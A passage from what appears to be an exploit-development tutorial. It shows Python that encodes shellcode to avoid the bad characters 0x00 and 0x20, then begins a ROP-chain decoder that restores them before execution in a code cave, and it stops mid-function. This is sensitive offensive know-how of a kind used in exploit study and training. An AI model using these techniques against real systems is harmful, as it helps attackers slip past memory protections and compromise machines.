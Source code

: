     We can encode our shellcode using the following python code, which effectively replaces the bad chars with our new values as per the table summary. 
    
    ```python
    def encodeShellcode(shellcode):
        badchars = bytearray(b"\x00\x20")
        encodedchars = bytearray(b"\xff\x1f")
        encodedShellcode = shellcode
        for i in range(len(badchars)):
            encodedShellcode = encodedShellcode.replace(pack("B", badchars[i]), pack("B", encodedchars[i]))
        return encodedShellcode
    ```
    
    Next we need to incorporate the above into our shellcode and write our decoder. We require a pointer to our encoded shellcode, a perfect location is between the patching of the `LPBUFFER` and `NSIZE` location. 
    
    For our decoding routine which will take two arguments as input. Initially, we'll prepare a list of potential bad characters and their respective replacement characters. Then, we'll establish an accumulator variable (named restoreRop) that will hold the entire decoding ROP chain.
    
    Following this, we'll execute a loop over all the indices of the bad characters. For every entry, we'll compute the offset from the last bad character to the current one. We'll then negate this offset, assign it to the variable `neg_offset`, and utilize it in the ROP chain. To ascertain the value to be added to the substitute character, we'll implement an inner loop over all potential bad characters to identify which one exists at the corresponding index. Once located, this value is stored in the variable named `value`.

As the content of `value` needs to be popped into BL|AL|BH, it should be left-shifted by 8 bits. This action results in a value that aligns with the AL|BH register but also includes NULL bytes. To counteract the NULL byte issue, we'll carry out an OR operation with a static value of `0x11110011`. Ultimately, this outcome is inscribed into the ROP chain where it will be popped into another register during execution.
    
    This intricate procedure facilitates custom encoding. Moreover, it enables us to decode the shellcode prior to its transfer to the non-writable code cave.
    
    ```python
    # AL register = 0x11111100 (value = value | 0x11110011)
    # BH register = 0x11110011 (value = (value << 8) | 0x11110011)
    
    def decodeShellcode(badIndex, shellcode):
        badchars = bytearray(b"\x00\x20")
        addencodedchars = bytearray(b"\x01\x01")
        restoreRop = b""
        for i in range(len(badIndex)):
            if i == 0:
                offset = badIndex[i]
            else:
                offset = badIndex[i] - badIndex[i-1]
            neg_offset = (-offset) & 0xffffffff
    